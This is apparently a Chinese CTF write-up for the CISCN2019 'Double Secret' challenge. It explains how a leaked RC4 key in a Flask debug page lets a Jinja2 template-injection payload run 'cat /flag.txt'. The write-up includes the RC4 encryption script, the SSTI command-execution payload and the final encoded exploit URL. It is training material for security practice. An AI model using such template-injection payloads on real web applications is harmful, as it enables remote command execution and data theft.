





# [CISCN2019 华东南赛区]Double Secret



## 知识点

- RC4加密
- SSTI进行任意命令执行

## 解题

访问`/secret`目录，可以看到提示



尝试一下输入一个`secret`参数



可以看到`a`被加密了

尝试别的字符串加密时，发现报错了




```python
 if(secret==None):

        return 'Tell me your secret.I will encrypt it so others can\'t see'

    rc=rc4_Modified.RC4("HereIsTreasure")   #解密

    deS=rc.do_crypt(secret)

    a=render_template_string(safe(deS))

    if 'ciscn' in a.lower():

        return 'flag detected!'

    return a

 [Open an interactive python shell in this frame]  
```

可以看到如果`secret`为空，则返回`Tell me your secret.I will encrypt it so others can\'t see`

如果传入参数，就会进行RC4解密。同时泄露了密钥"HereIsTreasure" ​

### 构造一下RC4加密脚本

```python
import base64
from urllib import parse

def rc4_main(key = "init_key", message = "init_message"):
    # print("RC4加密主函数")
    s_box = rc4_init_sbox(key)
    crypt = str(rc4_excrypt(message, s_box))
    return  crypt
def rc4_init_sbox(key):
    s_box = list(range(256))  # 我这里没管秘钥小于256的情况，小于256不断重复填充即可
    # print("原来的 s 盒：%s" % s_box)
    j = 0
    for i in range(256):
        j = (j + s_box[i] + ord(key[i % len(key)])) % 256
        s_box[i], s_box[j] = s_box[j], s_box[i]
    # print("混乱后的 s 盒：%s"% s_box)
    return s_box
def rc4_excrypt(plain, box):
    # print("调用加密程序成功。")
    res = []
    i = j = 0
    for s in plain:
        i = (i + 1) % 256
        j = (j + box[i]) % 256
        box[i], box[j] = box[j], box[i]
        t = (box[i] + box[j]) % 256
        k = box[t]
        res.append(chr(ord(s) ^ k))
    # print("res用于加密字符串，加密后是：%res" %res)
    cipher = "".join(res)
    # print("加密后的字符串是：%s" %cipher)
    # print("加密后的输出(经过编码):")
    # print(str(base64.b64encode(cipher.encode('utf-8')), 'utf-8'))
    return (str(base64.b64encode(cipher.encode('utf-8')), 'utf-8'))
# rc4_main("123456sh","123456sh")
key = "HereIsTreasure"  #此处为密文
message = input("请输入明文:\n")
enc_base64 = rc4_main( key , message )
enc_init = str(base64.b64decode(enc_base64),'utf-8')
enc_url = parse.quote(enc_init)
print("rc4加密后的url编码:"+enc_url)
#print("rc4加密后的base64编码"+enc_base64)
```

### 构造SSTI的payload

把`payload`进行加密，当做`secret`传入

```python
{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('cat /flag.txt').read()")}}
```

加密

```python
.J%19S%C2%A5%15Km%2B%C2%94%C3%96S%C2%85%C2%8F%C2%B8%C2%97%0B%C2%90X5%C2%A4A%C3%9FMD%C2%AE%07%C2%8BS%C3%9F7%C3%98%12%C3%85r%C3%A9%1B%C3%A4%2A%C3%A7w%C3%9B%C2%9E%C3%B1h%1D%C2%82%25%C3%AD%C3%B4%06%29%7F%C3%B0o%2C%C2%9E9%08%C3%87%C3%B7u.%C3%BB%C2%95%14%C2%BFv%05%19j%C2%AEL%C3%9A-%C3%A3t%C2%AC%7FX%2C8L%C2%81%C3%91H%C3%BF%C3%B6%C3%A3%C3%9A%C3%B5%C2%9A%C2%A6%23%06%C2%A7%C2%B8%C2%BB%C2%B9%C3%A6ny%C3%98%C3%8Aj%C2%BB%25X%15%C3%97%C2%84F%24%1As%5E%C2%9B%C3%97%C2%A4%20j%C2%A5/%17%1C%C3%9Fs%C2%AF6%C3%85%C2%A5%C2%B1.%C3%A8%C2%A2Y%21%C2%A8%C3%A0%10%C2%8Aa%5D%5C%2B%C3%8E%C2%B0%C2%99%C3%A0%C2%BE%C2%87-%10x%20%5D%C3%9A%0B%C2%882P%C3%A3%C3%93%08n0%C3%AE%C3%BDb%C2%B1%C3%80%C3%B6%1F%5B%C2%88B%23~%C3%A6%C2%BC%5D%C2%81%C3%BF%C3%88d%C2%AE%C2%B8%C3%8E2%C2%92%20C%C2%B7%C2%B7%C2%95%C3%95Wj%C3%93%C2%B5%C3%AA_%C2%A1%2B%C2%87%C2%B5l%08%27%3F%C3%96
```

最终结果

```pyt
http://9649ea96-1d44-4b2c-a6b8-d4e0f762f98a.node3.buuoj.cn/secret?secret=.J%19S%C2%A5%15Km%2B%C2%94%C3%96S%C2%85%C2%8F%C2%B8%C2%97%0B%C2%90X5%C2%A4A%C3%9FMD%C2%AE%07%C2%8BS%C3%9F7%C3%98%12%C3%85r%C3%A9%1B%C3%A4%2A%C3%A7w%C3%9B%C2%9E%C3%B1h%1D%C2%82%25%C3%AD%C3%B4%06%29%7F%C3%B0o%2C%C2%9E9%08%C3%87%C3%B7u.%C3%BB%C2%95%14%C2%BFv%05%19j%C2%AEL%C3%9A-%C3%A3t%C2%AC%7FX%2C8L%C2%81%C3%91H%C3%BF%C3%B6%C3%A3%C3%9A%C3%B5%C2%9A%C2%A6%23%06%C2%A7%C2%B8%C2%BB%C2%B9%C3%A6ny%C3%98%C3%8Aj%C2%BB%25X%15%C3%97%C2%84F%24%1As%5E%C2%9B%C3%97%C2%A4%20j%C2%A5/%17%1C%C3%9Fs%C2%AF6%C3%85%C2%A5%C2%B1.%C3%A8%C2%A2Y%21%C2%A8%C3%A0%10%C2%8Aa%5D%5C%2B%C3%8E%C2%B0%C2%99%C3%A0%C2%BE%C2%87-%10x%20%5D%C3%9A%0B%C2%882P%C3%A3%C3%93%08n0%C3%AE%C3%BDb%C2%B1%C3%80%C3%B6%1F%5B%C2%88B%23~%C3%A6%C2%BC%5D%C2%81%C3%BF%C3%88d%C2%AE%C2%B8%C3%8E2%C2%92%20C%C2%B7%C2%B7%C2%95%C3%95Wj%C3%93%C2%B5%C3%AA_%C2%A1%2B%C2%87%C2%B5l%08%27%3F%C3%96
```

